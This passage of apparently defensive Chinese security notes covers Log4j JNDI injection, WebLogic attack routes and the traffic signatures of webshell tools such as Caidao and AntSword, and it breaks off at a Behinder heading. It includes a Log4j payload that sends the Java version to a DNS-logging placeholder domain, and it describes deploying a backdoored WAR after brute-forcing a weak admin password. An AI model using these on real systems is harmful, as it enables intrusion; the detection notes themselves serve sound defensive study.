 ```
最常见的payload：
${jndi:ldap://${sys:java.version}.dns平台得到的域名}	
```

流量特征：

```
 ${jndi:ldap://
 ${jndi:rmi:// 
```





## weblogic



反序列化

任意文件上传

war后门文件部署：如果后台管理页面存在弱口令，可以通过爆破获得账号密码。登陆后台上传包含后门的war包





## 菜刀、冰蝎、蚁剑、哥斯拉的流量特征



### 菜刀（cknife)

现在是base64流量加密，流量大，可用base64解码

shell 特征就是传输参数名为 z0，还存在int_set("display_erros","0")字符串特征



### 蚁剑

只了解php是通过base64流量加密

可以对流量进行加密、混淆。但是有些关键代码没有被加密，比如：

```
php ini_set、set_time_limit

asp OnError ResumeNext，response

蚁剑混淆加密后还有一个比较明显的特征，就是参数名大多以“_0x.....=”这种形式，所以，以_0x开头的参数名，后面为加密数据的数据包也可识别为蚁剑的流量特征
```



### 冰蝎

#### 2.0
